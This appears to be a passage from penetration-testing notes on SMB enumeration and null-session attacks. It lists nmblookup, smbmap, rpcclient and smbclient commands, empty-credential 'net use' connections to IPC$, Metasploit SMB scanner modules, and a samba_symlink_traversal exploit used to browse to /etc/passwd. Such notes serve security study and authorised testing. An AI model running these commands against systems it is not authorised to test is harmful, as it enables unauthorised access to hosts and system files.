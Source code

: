 ```
nmblookup -A [target ip ]
```

![](<../../.gitbook/assets/image (38) (1).png>)

## Checking for Null Sessions

Once we have detected that the File and Printer Sharing service is active and we have enumerated the available shares on a target, it is time to check if a null session attack is possible To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

#### from linux

```
smbmap -H [ip/hostname]
rpcclient -U "" -N [ip]
smbclient \\\\[ip]\\[share name]
```

#### from windows

```
NET USE \\[target IP address]\IPC$ '' /u:''
net use \\10.130.40.80\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

### metasploit modules

```
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_version
```

#### gain access to smb shares

```
use auxiliary/admin/smb/samba_symlink_traversal
set SMBSHARE tmp
exit
smbclient //192.168.99.131/tmp
smb: \> cd rootfs
smb: \rootfs\> cd etc
smb: \rootfs\etc\> more passwd
```
